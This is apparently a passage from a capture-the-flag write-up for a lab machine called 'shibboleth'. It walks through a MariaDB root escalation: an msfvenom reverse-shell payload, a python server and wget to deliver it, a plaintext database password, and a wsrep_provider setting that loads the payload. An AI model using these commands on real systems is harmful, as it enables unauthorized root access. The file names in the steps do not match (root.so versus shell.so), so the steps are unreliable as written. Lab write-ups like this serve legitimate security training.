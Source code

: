 ## Here we got mysql database user and password .

## Now create a payload using msfvenom 

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=2345 -f elf-so -o root.so
```
## Now upload this /payload to target temp directory for doing this start a python server.

```
python3 -m http.server
```

## And go to the target /temp directory and download this using wget.

```
wget <file url>
```

## Now start a netcat listner and login to Mysql database using credentials we found and set the wsrep_provider to your payload

```
ipmi-svc@shibboleth:/tmp$ mysql -h 127.0.0.1 -u zabbix -p 
mysql -h 127.0.0.1 -u zabbix -p 
Enter password: bloooarskybluh 
 
Welcome to the MariaDB monitor.  Commands end with ; or \g. 
Your MariaDB connection id is 3466 
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04 
 
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others. 
 
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 
 
MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/shell.so"; 
SET GLOBAL wsrep_provider="/tmp/shell.so"; 
ERROR 2013 (HY000): Lost connection to MySQL server during query 
MariaDB [(none)]> 
```

# BOOOMM!!!!!! WE GOT ROOT SHELL 
![hacker](https://www.itgovernance.co.uk/blog/wp-content/uploads/2014/07/nedry.jpg)
  
